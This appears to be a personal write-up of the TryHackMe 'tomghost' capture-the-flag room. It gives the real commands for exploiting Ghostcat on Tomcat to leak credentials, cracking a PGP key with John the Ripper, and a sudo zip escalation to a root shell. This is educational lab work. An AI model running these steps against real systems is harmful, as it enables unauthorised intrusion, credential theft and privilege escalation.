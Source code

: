 # tomghost

I have to find out what is on the server. For this, we can use an nmap scan with the following command:

```bash
sudo nmap -T4 -A IP_address > nmap
```

We then read the nmap file to see what the server has on it:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 04:18 GMT
Nmap scan report for 10.10.151.10
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.30 seconds
```

We can see that there are 4 main ports available. Since there is no port 80 \(regular HTTP port\), we have to look at other ports to see if there is a website for any of these services. Port 8080, had this on the site:

![](../../.gitbook/assets/image.png)

We now know that they are using the Apache version Tomcat 9.0.30. I will try to use msfconsole \(Metasploit\) in order to find out if there is a vulnerability against this. Searching on exploit-db.com led me to this:

![exploit-db results for Tomcat](../../.gitbook/assets/image%20%285%29.png)

At this point, I am thinking that "Ghostcat" might be my way in. I then used searchsploit in order to see what exploits are currently on my ParrotOS relating to this:

![searchsploit output](../../.gitbook/assets/image%20%288%29.png)

I will then copy this file to my local directory so I can use it for the exploit:

![Copying to local directory](../../.gitbook/assets/image%20%282%29.png)

I did get lost here because I did find the right exploit, but it was not working for some reason. I did have to search online at this part, and came upon this [website](https://cyber-99.co.uk/thm-tomghost), and I saw they were using a command similar to mine with only one change: they were using the "python2.7" command instead of the regular "python" command. I entered the following:

```c
python2.7 48143.py 10.10.151.10
```

The output to the command was the following:

```markup
Getting resource at ajp13://10.10.151.10:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
    skyfuck:password <!----I took out the password----->
  </description>

</web-app>
```

After this, I saved the username and password. I had to see where the username and password would fit into. Turns out, it works for SSH:

![The home directory for the user](../../.gitbook/assets/image%20%281%29.png)

There were 2 files in this directory: credential.pgp and tryhackme.asc. Neither of them looked as interesting as I thought they would. Looking around, I found a folder of a different user, and in their directory, I found the user.txt file.

![The other user&apos;s file](../../.gitbook/assets/screenshot-2021-03-06-230615.png)

I realized that to switch my user access, to merlin \(or even to root\), I had to do something with the files in the skyfuck directory. I downloaded them using scp:

![Scp command](../../.gitbook/assets/screenshot-2021-03-06-231338.png)

I did run into run more trouble here as well. While trying to import the tryhackme.asc by gpg, it was asking me for a password, which I did not have. I had to refer back to the [previous website ](https://cyber-99.co.uk/thm-tomghost)to see how else I can attack this problem. Based on the website, my next step was to use John the ripper to crack the asc file. Prior to doing that, I did have to change into a format that is readable by John. Here is where programs in /opt/john/ come into play. They convert files from one type into a john crackable format. We will use "gpg2john.py".

![gpg2john command](../../.gitbook/assets/image%20%287%29.png)

Running john on it let me to a password:

![john output](../../.gitbook/assets/screenshot-2021-03-06-233030.png)

I then used the commands on [this website](https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key) in order to decrypt the files using the password from the john command.

![](../../.gitbook/assets/screenshot-2021-03-06-233420.png)

From there, I got into merlin's account using that password. I ran "sudo -l" to see what commands the user merlin is able to do.

![sudo -l output](../../.gitbook/assets/image%20%286%29.png)

We can see that merlin is able to the "zip" command. I have not used this command before, so i will have to do research into how we can root using this. I went to the [GTFObins website](https://gtfobins.github.io/gtfobins/zip/#sudo) to see how I am able to get root on this machine. I ran the following commands:

```markup
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

After this, I had a root shell. I was then able to read the contents of /root/root.txt.

![](../../.gitbook/assets/screenshot-2021-03-06-234126.png)

I had now gotten the password and had completed the room. Overall, it was a great room. I did get lost a couple of times, but I think that's part of the learning process.

